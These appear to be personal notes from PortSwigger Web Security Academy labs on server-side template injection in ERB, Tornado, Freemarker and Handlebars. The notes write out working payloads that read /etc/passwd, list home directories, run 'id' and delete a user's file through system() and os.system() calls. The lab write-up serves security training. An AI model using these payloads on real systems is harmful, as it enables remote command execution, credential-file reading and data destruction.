 # Encounters
https://portswigger.net/research/server-side-template-injection

# Basic SSTI
Delete user's file. 
- Find the SSTI 
```
https://0a0000c703bc23e380d30d40003b00bf.web-security-academy.net/?message=Unfortunately%20this%20product%20is%20out%20of%20stock
```
This is reflected in the page. 
- Tried a few payloads before finding one for ERB;
```
${ 7 * 7}
${{<%[%'"}}%\.
<%= 7*7 %> - works
'<%= File.read("/etc/passwd") %>' - works
```
With the two Ruby ones working we're definitely using ERB. 
```
<%=%20system("ls%20/home/")%20%>
<%=%20system("ls%20/home/carlos")%20%>
<%=%20system("rm%20/home/carlos/morale.txt")%20%>
```

# Basic server-side template injection (code context)
Delete morale.txt
## Observations
- Can post comments to a blog. 
- Can change my username displayed in my comments from /my-account:
```
blog-post-author-display=user.first_name&csrf=Ju0D0cmlYZs0zwlQOf5648sn0ugDlaRZ
```
- Changed the value from user.nickname to user.email_address then tried to submit another comment and get this error - 
```
Internal Server Error
Traceback (most recent call last): File "<string>", line 16, in <module> File "/usr/local/lib/python2.7/dist-packages/tornado/template.py", line 348, in generate return execute() File "<string>.generated.py", line 4, in _tt_execute AttributeError: User instance has no attribute 'email_address'
```
So, that's our injection point. And from the error we can see it is in tornado. 
- Payloads:
```
{{7*7}}
```
Getting execution:
```
blog-post-author-display=user.nickname}}{%25+import+os+%25}{{os.system('rm+/home/carlos/morale.txt')}}&csrf=Ju0D0cmlYZs0zwlQOf5648sn0ugDlaRZ
```

# Server-side template injection using documentation
## Observations
- You can log in and edit templates as admin. 
- Freemarker templates 
```
${"freemarker.template.utility.Execute"?new()("id")}
${7*&}
```

# Server-side template injection in an unknown language with a documented exploit
## Observations
- No real interactivity. 
- Fuzzed productId and it didn't have anything. 
- The first product has an error message because its out of stock and the message gets reflected into the page. 
- Inducing an error reveals handlebars. 
